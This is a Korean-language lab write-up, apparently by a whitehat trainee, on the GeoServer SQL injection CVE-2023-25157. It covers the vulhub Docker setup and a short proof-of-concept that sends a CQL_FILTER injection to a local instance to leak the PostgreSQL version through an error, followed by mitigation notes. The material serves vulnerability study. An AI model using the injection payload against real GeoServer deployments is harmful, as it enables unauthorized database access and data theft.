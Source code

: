 # GeoServer CVE-2023-25157
> 화이트햇 3기 [30반] 김정우
---
github 링크 - https://github.com/custiya/kr-vulhub/tree/main/GeoServer/CVE-2023-25157

### 취약점 요약
* CVE-2023-25157는 GeoServer라는 오픈소스 지도 데이터 서비스 웹 애플리케이션에 대해 발생한 SQLi 취약점
* GeoServer 2.22.0 이하의 일부 버전에서 발생
* WFS(Web Feature Service) 요청의 CQL_FILTER라는 파라미터가 취약함
* 인증없이 해당 API에 접근 가능하다면 누구든 이용 가능

### 환경 구성
* docker compose 파일과 start.sh를 같은 디렉토리로 구성
* docker compose up -d 커맨드로 테스트 환경 실행
* http://your-ip:8080/geoserver 로 페이지에 접속 가능
* 먼저 PostGIS 데이터 저장소가 포함된 기존 작업 공간발견해야 함
* Vulhub의 GeoServer 인스턴스에는 이미 PostGIS 데이터 저장소가 존재
    * 작업 공간 이름 : vulhub
    * 데이터 저장소 이름 : pg
    * 테이블 이름 : example
    * 사용한 속성 : name

### poc.py
* 위에서 서술했던 내용을 기반으로 sqli 구문을 만든 형태
* 해당 구문을 request모듈을 사용하여 서버에 전달
* strStartsWith(name,'x'') = true
    * x 뒤의 '를 하나 더 추가하며 sql 문법 파괴
* and 1=(SELECT CAST ((SELECT version()) AS integer))
    * version() 함수는 PostgreSQL의 현재 버전을 반환하는 함수이며, 문자열
    * CAST(... AS integer)는 강제로 정수로 변환하므로 오류가 발생
    * 서버는 에러 메시지를 반환하게 되어, Blind SQL Injection 테스트가 가능
```
# 대상 URL
url = "http://localhost:8080/geoserver/ows"

# CQL_FILTER에 들어갈 원본 인젝션 문자열 (URL 디코딩된 상태)
cql_filter = "strStartsWith(name,'x'') = true and 1=(SELECT CAST ((SELECT version()) AS integer)) -- ') = true"

# 파라미터 설정
params = {
    "service": "wfs",
    "version": "1.0.0",
    "request": "GetFeature",
    "typeName": "vulhub:example",
    "CQL_FILTER": cql_filter
}
```
### 결과
![Alt text](result.png)

### 정리
* 해당 poc를 통해 SQLi의 발생 여부를 알아 볼 수 있었다. 공격자는 SQL 쿼리를 통하여 시스템 정보들을 수집할 수 있을 것 같다.
* 해당 공격을 막기 위하여, 사용자 입력값 검증이 필요이 추가되어야 한다. 또한 입력 받은 SQL 구문을 바로 번역해서 사용하는 것이 아니라 별도로 저장하여 사용하여야 한다.